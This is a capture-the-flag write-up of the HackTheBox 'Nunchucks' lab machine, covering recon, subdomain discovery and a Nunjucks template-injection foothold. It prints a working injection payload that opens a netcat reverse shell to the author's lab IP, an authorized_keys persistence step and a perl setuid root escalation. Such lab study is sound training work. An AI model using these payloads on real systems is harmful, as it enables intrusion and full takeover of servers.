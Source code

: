 # Nunchucks

This is my write-up for the box **Nunchucks** on HackTheBox: [https://app.hackthebox.com/machines/Nunchucks](https://app.hackthebox.com/machines/Nunchucks).

nmap scan: `nmap -T4 -A -Pn 10.10.11.122 -oN nunchucks.nmap`

```
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-19 15:24 EST
Nmap scan report for 10.10.11.122
Host is up (0.054s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-title: Nunchucks - Landing Page
| tls-nextprotoneg: 
|_  http/1.1
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-alpn: 
|_  http/1.1
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.08 seconds
```

I had a hard time connecting to the website. I then updated my **/etc/hosts** file and it worked!

![](<../../.gitbook/assets/image (328) (1) (1) (1).png>)

I then ran a `git clone` for the [Seclists](https://github.com/danielmiessler/SecLists) GitHub repository. This repo has a lot of different files which come in handy from directory/password brute-forcing. I did get stuck at this point, so I then looked at the HackTheBox walk-through from the site. I learned about the **gobuster** option of **vhosts** which checks for subdomains on the system:

`gobuster vhost -u https://nunchucks.htb/ -w directory-list-2.3-medium.txt -k`

This led me to discover a **store.nunchucks.htb**. In order to visit the site, I had to add the site to my **/etc/hosts** file. I manually edited the file using **nano**, but the walk-through had a much easier solution for this:

`echo "10.10.11.122 nunchucks.htb" | sudo tee -a /etc/hosts`

We end up on this page:

![](<../../.gitbook/assets/image (342) (1) (1) (1) (1) (1) (1) (1).png>)

I then ran **feroxbuster** on the website to see if there were directories that I can access:

![](<../../.gitbook/assets/image (344) (1) (1) (1) (1) (1) (1) (1) (1).png>)

I didn't get that much of help from this. The walk-through mentioned that there is a template injection vulnerability on this site. I tested out the example they gave:

![](<../../.gitbook/assets/image (338) (1) (1) (1) (1) (1) (1).png>)

The walk-through mentioned BurpSuite's Repeater function. I was then testing out what I can inject using that in order to find out what system is on the backend:

![](<../../.gitbook/assets/image (329) (1) (1) (1) (1) (1).png>)

Using the following image from [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#detect](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#detect), I was able to assume that the backend system was either **Jinja2** or **Twig**:

![](<../../.gitbook/assets/image (327) (1) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (341) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

After trying to get information from the system, I then went back to the write-up and found out that the server is using NodeJS Express. This is shown by the Response in Burp Suite:

![](<../../.gitbook/assets/image (339) (1) (1) (1) (1) (1) (1) (1).png>)

The walk-through mentions how they found the website [http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine) by searching on Google. I searched on Google as well, but this website was not there in the results of a search. After this, the walk-through mentions running the following template injection (I modified it for my usage):

`{"email":"{{range.constructor("return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 1234 >/tmp/f')")()}}@test.com"}`

I then got a reverse netcat connection:

![](<../../.gitbook/assets/image (332) (1) (1) (1) (1) (1) (1).png>)

I then was able to read the user.txt file in david's home directory:

![](<../../.gitbook/assets/image (333) (1) (1) (1) (1).png>)

I then ran `script /dev/null bash` on recommendation from the walk-through. This gave me the shell (with the username and hostname). I then ran `getcap -r /`, again, on recommnedation of the write-up:

![](<../../.gitbook/assets/image (334) (1) (1) (1) (1) (1) (1) (1) (1).png>)

The walk-through recommended using GTFObin's **perl** page.  It seemed that I was root, but was unable to read the root.txt file:

![](<../../.gitbook/assets/image (343) (1) (1) (1) (1) (1).png>)

I was unable to get **nano** (text editor) to work as I wanted it to. I then added my own key to the **authorized\_keys** file that way I was able to get back into the machine. In order to do this I did the following (recommended by the write-up):

```
Local Machine:
run ssh-keygen (I entered defaults for everything)

Then copy the output of "id_rsa.pub" which is in your .ssh folder.

Remote Machine:
echo <id_rsa.pub> > ~/.ssh/authorized_keys

You can now SSH as david onto the machine
```

I was lost at this point, since the GTFObins commands were not getting me solid results. The write-up mentioned breaking down the `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'` command to a script. This was the solution from the write-up:

![](<../../.gitbook/assets/image (330) (1) (1) (1) (1).png>)

Once you run `chmod +x` on the file, you can then get root access.

![](<../../.gitbook/assets/image (340) (1) (1) (1) (1) (1) (1) (1) (1).png>)

You then also have access to root.txt

![](<../../.gitbook/assets/image (331) (1) (1) (1).png>)

